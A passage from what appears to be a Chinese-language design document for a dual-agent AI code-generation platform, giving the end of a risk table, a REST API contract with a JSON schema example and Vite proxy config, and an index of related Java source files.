| 11 | 并行文件冲突 | 两个 Agent 并行写文件可能互相覆盖/越界 | Agent 角色目录沙箱强制隔离（5.5），越权写入直接拒绝 |
| 12 | SSE 合并复杂度 | 双流合并的时序、前端多栏渲染 | 消息携带 `agentRole`；前端首版简化为带标签的单流展示 |

---

## 附录 A：与前端的 API 契约（示例）

后端生成时遵循以下约定（Prompt 中固化，双 Agent 方案下由 `api-contract.json` 承载）：

| 方法 | 路径 | 说明 |
|---|---|---|
| GET | `/api/health` | 健康检查（部署健康检查使用） |
| GET | `/api/{resource}` | 列表（支持分页/筛选） |
| GET | `/api/{resource}/:id` | 详情 |
| POST | `/api/{resource}` | 创建 |
| PUT | `/api/{resource}/:id` | 更新 |
| DELETE | `/api/{resource}/:id` | 删除 |

统一响应：`{ "code": 0, "data": ..., "message": "ok" }`

`api-contract.json` 结构示例（双 Agent 方案）：

```json
{
  "models": [
    { "table": "posts", "fields": [
      { "name": "id", "type": "int", "pk": true },
      { "name": "title", "type": "varchar(200)" },
      { "name": "content", "type": "text" },
      { "name": "createdAt", "type": "datetime" }
    ]}
  ],
  "apis": [
    { "method": "GET",  "path": "/api/posts",     "response": "Post[]" },
    { "method": "POST", "path": "/api/posts",     "request": "PostInput", "response": "Post" },
    { "method": "GET",  "path": "/api/posts/:id", "response": "Post" }
  ],
  "responseFormat": { "code": 0, "data": "any", "message": "string" }
}
```

前端开发代理（`frontend/vite.config.js`）：

```js
server: {
  proxy: { '/api': 'http://localhost:3000' }
}
```

## 附录 B：相关既有代码索引

| 关注点 | 位置 |
|---|---|
| 生成类型 | `src/main/java/com/wkr/aicode/model/enums/CodeGenTypeEnum.java` |
| AI 服务接口 | `src/main/java/com/wkr/aicode/ai/AiCodeGeneratorService.java` |
| 服务工厂 | `src/main/java/com/wkr/aicode/ai/AiCodeGeneratorServiceFactory.java` |
| 生成外观 | `src/main/java/com/wkr/aicode/core/AiCodeGeneratorFacade.java` |
| 写文件工具 | `src/main/java/com/wkr/aicode/ai/tool/FileWriteTool.java` |
| 工作流编排 | `src/main/java/com/wkr/aicode/langGrapgh4J/CodeGenWorkflow.java` |
| 并发工作流 | `src/main/java/com/wkr/aicode/langGrapgh4J/CodeGenConcurrentWorkflow.java` |
| 工作流上下文 | `src/main/java/com/wkr/aicode/langGrapgh4J/state/WorkflowContext.java` |
| 工作流 SSE | `src/main/java/com/wkr/aicode/controller/WorkflowSseController.java` |
| Vue 构建器 | `src/main/java/com/wkr/aicode/core/builder/VueProjectBuilder.java` |
| 部署逻辑 | `src/main/java/com/wkr/aicode/service/impl/AppServiceImpl.java`（`deployApp`） |
| 静态预览 | `src/main/java/com/wkr/aicode/controller/StaticResourceController.java` |
| 目录常量 | `src/main/java/com/wkr/aicode/constant/AppConstant.java` |
| Vue Prompt | `src/main/resources/prompt/codegen-vue-project-system-prompt.txt` |
